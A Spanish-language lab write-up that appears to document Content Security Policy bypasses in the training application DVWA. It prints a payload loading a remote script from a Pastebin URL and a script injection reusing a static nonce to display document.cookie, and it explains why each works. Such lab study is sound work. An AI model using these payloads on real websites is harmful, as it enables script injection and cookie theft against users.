

# Content Security Policy (CSP) Bypass - DVWA

## Descripción

Este ejercicio demuestra cómo el bypass de la política de seguridad de contenido (CSP) en **DVWA (Damn Vulnerable Web Application)** puede permitir la ejecución de JavaScript malicioso en diferentes niveles de seguridad.

### Niveles de Seguridad:

1. **Nivel Bajo (Low)**
2. **Nivel Medio (Medium)**

## Nivel de Seguridad Bajo (Low)

En este nivel, la política CSP permite la inclusión de scripts desde fuentes no seguras. Un atacante puede aprovechar esta vulnerabilidad para cargar y ejecutar scripts maliciosos desde servidores externos.

### Ejemplo de Payload en Nivel Bajo

```plaintext
payload=https://pastebin.com/dl/Lnamji4V
```

Este payload carga un script desde **Pastebin** y lo ejecuta en la página. Sin embargo, el enlace de Pastebin no funciona correctamente en este nivel, lo que hace que el payload no se ejecute.

---

## Nivel de Seguridad Medio (Medium)

En el nivel de seguridad medio, se utiliza un `nonce` para prevenir la ejecución de scripts no autorizados. Sin embargo, el valor de este `nonce` es estático y se puede predecir, lo que permite a un atacante incluirlo en sus scripts maliciosos y ejecutarlos.

### Ejemplo de Payload en Nivel Medio

```html
payload=<script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">alert(document.cookie)</script>
```


Este payload incluye un script con un nonce estático que ejecuta una alerta mostrando las cookies del documento. Como el nonce es predecible, el atacante puede incluirlo en el payload y ejecutar su código malicioso en la página.

---

## Conclusión

Este ejercicio ilustra cómo las configuraciones de seguridad en una aplicación web, como la política CSP, pueden ser vulnerables si no se implementan correctamente. En el caso de DVWA, el nonce estático en el nivel de seguridad medio permite el bypass de la política de seguridad y la ejecución de código malicioso.

